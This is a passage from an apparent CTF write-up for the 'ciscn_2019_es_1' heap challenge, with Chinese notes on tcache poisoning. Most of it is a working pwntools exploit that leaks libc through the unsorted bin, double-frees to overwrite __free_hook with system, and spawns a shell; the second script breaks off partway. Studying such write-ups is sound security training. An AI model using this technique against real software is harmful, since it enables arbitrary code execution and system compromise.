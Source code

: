 ```python
def exp():
    new(0x80, b'arttnba3') # idx 0
    new(0x80, b'arttnba3') # idx 1
    new(0x80, b'arttnba3') # idx 2
    new(0x80, b'arttnba3') # idx 3
    new(0x80, b'arttnba3') # idx 4
    new(0x80, b'arttnba3') # idx 5
    new(0x80, b'arttnba3') # idx 6
    new(0x80, b'arttnba3') # idx 7
    new(0x10, b'arttnba3') # idx 8
    new(0x80, b'/bin/sh\x00') # idx 9
	
    free(0)
    free(1)
    free(2)
    free(3)
    free(4)
    free(5)
    free(6) # tcache 的 0x80 位置被填满了
    
    free(7)
    dump(7)
    main_arena = u64(p.recvuntil(b'\x7f')[-6:].ljust(8, b'\x00')) - 96
    __malloc_hook = main_arena - 0x10
    libc_base = __malloc_hook - libc.sym['__malloc_hook']
    log.success('libc base leak: ' + hex(libc_base))
    free(8)
    free(8)
    new(0x10, p64(libc_base + libc.sym['__free_hook']))
    new(0x10, p64(libc_base + libc.sym['system']))
    free(9)

    p.interactive()

if __name__ == '__main__':
    exp()
```

#### tcache poisoning

一开始连续4次free 0 ，然后一次new拿走两个chunk，并将0.contend.fd设置为heapbase+0x10（tcache的链表指针指向content）

heapbase是泄露的heap地址取高12位（页的开头？）

第二次new的时候，第一个chunk还是0.content，第二个chunk就是heapbase开始的了，一个0和15个7，将除了0x20的bin全部填满，0x20的bin后面还要靠uaf改free_hook，不能置为7。

这时0x80的chunk free之后就会进入unsorted bin，之后就没区别了。

```python
from pwn import *
#context.log_level = 'DEBUG'
context.arch = 'amd64'
p = process("./ciscn_2019_es_1")
libc = ELF("./glibc-all-in-one/libs/2.27-3ubuntu1_amd64/libc.so.6")

def cmd(choice:int):
    p.recvuntil(b"choice:")
    p.sendline(str(choice).encode())

def new(size:int, content):
    cmd(1)
    p.recvuntil(b"Please input the size of compary's name")
    p.sendline(str(size).encode())
    p.recvuntil(b"please input name:")
```